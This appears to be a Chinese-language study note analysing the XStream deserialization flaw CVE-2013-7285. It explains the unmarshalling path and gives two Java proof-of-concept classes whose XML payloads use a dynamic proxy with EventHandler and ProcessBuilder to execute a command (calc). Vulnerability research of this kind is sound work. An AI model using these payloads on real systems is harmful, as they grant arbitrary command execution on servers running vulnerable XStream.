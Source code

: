 ## CVE-2013-7285

`影响范围`：1.4.x<=1.4.6或1.4.10

几个关键步骤：

- TreeUnmarshaller#start开始解析xml

- HierarchicalStreams#readClassType通过标签获取Mapper中对应的Class对象
- TreeUnmarshaller#convertAnother将Class对象转换为对应的Java对象
  - mapper.defaultImplementationOf()查找Class类的实现类，根据实现类获取对应的converter
  - convert方法返回object对象
    - 调用对应converter的unmarshall方法继续解析子节点

关键点：
`dynamic-proxy标签在XStream反序列化之后会得到一个动态代理类对象，当访问了该对象的com.foo.Blah或com.foo.Woo这两个接口类中声明的方法时（即interface标签内指定的接口类），就会调用handler标签中的类方法com.foo.MyHandler`。

## poc

```
package day1CVE20137285;

import com.thoughtworks.xstream.XStream;

public class Test1 {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        String xml =
                "<sorted-set>\n" +
                        "    <string>foo</string>\n" +
                        "    <dynamic-proxy>\n" +
                        "        <interface>java.lang.Comparable</interface>\n" +
                        "        <handler class=\"java.beans.EventHandler\">\n" +
                        "            <target class=\"java.lang.ProcessBuilder\">\n" +
                        "                <command>\n" +
                        "                    <string>cmd</string>\n" +
                        "                    <string>/C</string>\n" +
                        "                    <string>calc</string>\n" +
                        "                </command>\n" +
                        "            </target>\n" +
                        "            <action>start</action>\n" +
                        "        </handler>\n" +
                        "    </dynamic-proxy>\n" +
                        "</sorted-set>";
        Object o = xStream.fromXML(xml);
//        System.out.println(o);

    }
}
```

```
package day1CVE20137285;

import com.thoughtworks.xstream.XStream;

public class Test2 {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        String xml ="<tree-map>\n" +
                "    <entry>\n" +
                "        <dynamic-proxy>\n" +
                "            <interface>java.lang.Comparable</interface>\n" +
                "            <handler class=\"java.beans.EventHandler\">\n" +
                "                <target class=\"java.lang.ProcessBuilder\">\n" +
                "                    <command>\n" +
                "                    <string>cmd</string>\n" +
                "                    <string>/C</string>\n" +
                "                    <string>calc</string>\n" +
                "                    </command>\n" +
                "                </target>\n" +
                "                <action>start</action>\n" +
                "            </handler>\n" +
                "        </dynamic-proxy>\n" +
                "        <string>good</string>\n" +
                "    </entry>\n" +
                "</tree-map>";
        Object o = xStream.fromXML(xml);
//        System.out.println(o);

    }
}

```

